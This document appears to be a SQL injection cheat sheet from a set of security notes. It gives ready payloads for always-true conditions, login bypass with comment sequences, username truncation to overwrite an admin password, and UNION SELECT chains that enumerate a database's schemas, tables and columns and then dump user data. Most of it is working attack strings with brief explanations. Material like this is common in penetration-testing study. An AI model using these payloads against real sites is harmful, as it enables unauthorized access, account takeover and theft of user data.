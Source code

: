 ```
' OR 1=1 -- - {always returns query as true}
`urlencode "0 UNION SELECT 1,database(),3,4"` | tail {get database name}
`urlencode "0 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema='marketplace'"` | tail {get table names}
`urlencode "0 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_name='users'"` | tail {get column names}
`urlencode "0 UNION SELECT 1,GROUP_CONCAT([col name],':',[col name] SEPARATOR '<br>'),3,4 FROM users"` {retrieve data}
```

### Retrieval of hidden data
```
https://example.com/filter?category=Acessories'+OR+1=1--
# The sql query will return as "SELECT * FROM filter WHERE category = 'Accessories' OR 1=1--"
# The "--" command sequence is to comment out the remainder of the original query
```

### Allowing authentication bypass
When a user tries to log in into an app, the sql query that will be carry out to the server is 
```
SELECT * FROM users WHERE username='admin' AND password='password123'
```
An attacker can inject SQL commands into the input function
```
administrator'-- -
# The "--" command sequence id to comment out the remainder of the original query
```

### Sql truncation attack
When a user is registering into an app, the back-end is not validating the characters length wether it has exceeded or not

If you try to register with a username with a lot of spaces that exceeds the characters length, the spaces will get truncated and it should not be saved to the database

However, if we add another arbitrary character after giving blank spaces to the input, that arbitrary character would get truncated also and your data should be saved into the database.
```
username=admin[spaces]a&password=test
```
If there is a user named admin in the database, the password input will be inserted into the column where username admin exists and this will causes the admin's password to be changed into "test"


###  Basic SQL injection attack
Determine the number of columns of the original query
```
http://example.com/admin?user=-1 union select 1,2,3,4-- -
# Since there is no error, we can assume there are only 4 columns retrieved in the original query
```
Determine the database
```
http://example.com/admin?user=-1 union select (select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),2,3,4-- -
```
Determining the tables
```
http://example.com/admin?user=-1 union select (select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA='marketplace'),2,3,4-- -
```
Retrieves the data from tables
```
http://example.com/admin?user=-1 union select group_concat([column-name]),null,null,null from [table name]-- -
```
